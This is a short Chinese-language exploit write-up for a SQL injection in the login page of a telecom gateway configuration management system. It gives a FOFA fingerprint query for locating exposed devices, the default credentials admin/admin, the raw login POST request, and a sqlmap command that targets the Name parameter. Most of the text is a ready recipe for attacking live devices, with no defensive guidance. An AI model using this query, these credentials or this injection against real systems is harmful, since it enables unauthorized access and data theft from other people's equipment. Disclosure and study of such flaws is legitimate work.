# 电信网关配置管理系统-SQL注入漏洞

## 漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 电信网关配置管理系统

## FOFA

> [!NOTE]
>
> body="src=\"img/dl.gif\"" && title="系统登录"

## 漏洞复现

登录页面如下

![](电信网关配置管理系统-SQL注入漏洞.assets/16273636262525718.jpg)

设备存在默认弱口令 **admin/admin**

![](电信网关配置管理系统-SQL注入漏洞.assets/16273636266180742.jpg)

登录的请求包为

```
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```

保存为文件使用 Sqlmap工具，注入点为 **Name参数**

```
sqlmap -r sql-1.txt -p Name --risk 3 
```

![](电信网关配置管理系统-SQL注入漏洞.assets/1627363626840933.jpg)

## Goby & POC

> [!NOTE]
>
> Hsmedia Hgateway default account

![](电信网关配置管理系统-SQL注入漏洞.assets/1627363627194946.jpg)